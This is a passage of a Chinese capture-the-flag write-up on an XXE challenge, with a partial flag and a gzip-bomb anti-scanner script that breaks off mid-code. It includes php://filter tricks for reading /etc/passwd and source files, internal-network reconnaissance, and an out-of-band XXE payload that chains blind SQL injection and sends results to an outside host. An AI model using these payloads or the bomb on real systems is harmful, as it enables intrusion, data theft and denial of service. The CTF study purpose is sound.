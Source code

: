 ```
define(SECRETFILE,'/var/www/52dandan.com/public_html/youwillneverknowthisfile_e2cd3614b63ccdcbfe7c8f07376fe431');
....
?>
```
拿到了一半的flag
```
Ok,you get the first part of flag : 5bdd3b0ba1fcb40
then you can do more to get more part of flag
```
这里出现了一个问题，就是获取`/var/www/52dandan.cc/public_html/common.php`的时候出现了Detected an entity reference loop错误。

![](https://p3.ssl.qhimg.com/t019552d837e8c8502c.jpg)

查了一下资料，libxml解析器默认限制外部实体长度为2k，没法突破，只能寻找一下压缩数据方面的。php过滤器中提供了一个zlib.inflate压缩数据。

```
压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");
```
这样就可以获取到common.php文件源码了!

![](https://p3.ssl.qhimg.com/t01f696f6826e2c62f8.jpg)

再获取一下机器的一些ip信息，其中arp信息中保留了一个内网地址
```
/proc/net/arp
/etc/host
```
```
IP address       HW type     Flags       HW address            Mask     Device
192.168.223.18   0x1         0x2         02:42:c0:a8:df:12     *        eth0
192.168.223.1    0x1         0x2         02:42:91:f9:c9:d4     *        eth0
```
开放了一个80端口，test.php的shop参数存在注入
```
<!ENTITY % payload     SYSTEM     "http://192.168.223.18/test.php?shop=3'-(case%a0when((1)like(1))then(0)else(1)end)-'1">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://ip/test/?xxe_local=%payload;'>">
%int;
%trick;
```
做不动了，不想做了。

2333，学习了一个防止扫描器的姿势，如果扫描器爬到test.php，当然对一般的目录扫描效果不大，一般都是HEAD请求。

test.php
```
<?php
$agent = strtolower($_SERVER['HTTP_USER_AGENT']);
//check for nikto, sql map or "bad" subfolders which only exist on wordpress
if (strpos($agent, 'nikto') !== false || strpos($agent, 'sqlmap') !== false || startswith($url,'wp-') || startswith($url,'wordpress') || startswith($url,'wp/'))
{
    sendBomb();
    exit();
}
function sendBomb(){
    //prepare the client to recieve GZIP data. This will not be suspicious
    //since most web servers use GZIP by default
    header("Content-Encoding: gzip");
    header("Content-Length: ".filesize('www.gzip'));
    //Turn off output buffering
    if (ob_get_level()) ob_end_clean();
    //send the gzipped file to the client
    readfile('10G.gzip');
```